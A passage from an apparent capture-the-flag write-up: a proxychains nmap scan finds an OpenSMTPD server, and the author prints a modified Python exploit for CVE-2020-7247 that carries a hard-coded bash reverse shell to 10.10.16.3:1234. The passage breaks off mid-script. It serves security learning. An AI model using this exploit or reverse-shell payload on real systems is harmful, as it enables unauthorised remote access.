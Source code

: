 And we got another Ip range

Scanning for whole ip range with nmap

```bash
$ proxychains nmap --top-ports 6 10.241.251.0-225

[proxychains] Dynamic chain  ...  10.10.10.224:3128  ...  127.0.0.1:3128  ...  10.197.243.77:3128  ...  10.241.251.113:25  ...  OK

```

After few years I got that 10.241.251.113 is up and have smtp port 25 open

## SMTP exploitation

It is running OpenSMTPD, I searched for this online and found some exploits (CVE-2020-7247)
https://github.com/FiroSolutions/cve-2020-7247-exploit

I modified this exploit litlle bit

```python

import socket, time
import sys

if len(sys.argv) < 2:
    print("\n\nUsage: python3 exploit.py machine-ip")
    exit()
HOST = sys.argv[1]
PORT = 25              # The same port as used by the server
s = None

writewhat = 'bash -c "bash -i >& /dev/tcp/10.10.16.3/1234 0>&1"' # hard coded rev shell
payload = b"""\r\n
#0\r\n
#1\r\n
#2\r\n
#3\r\n
#4\r\n
#5\r\n
#6\r\n
#7\r\n
#8\r\n
#9\r\n
#a\r\n
#b\r\n
#c\r\n
#d\r\n
"""+writewhat.encode()+b"""
.
"""

for res in socket.getaddrinfo(HOST, PORT, socket.AF_UNSPEC, socket.SOCK_STREAM):
    af, socktype, proto, canonname, sa = res
    try:
        s = socket.socket(af, socktype, proto)
    except OSError as msg:
        s = None
        continue
    try:
        s.connect(sa)
    except OSError as msg:
        s.close()
        s = None
        continue
```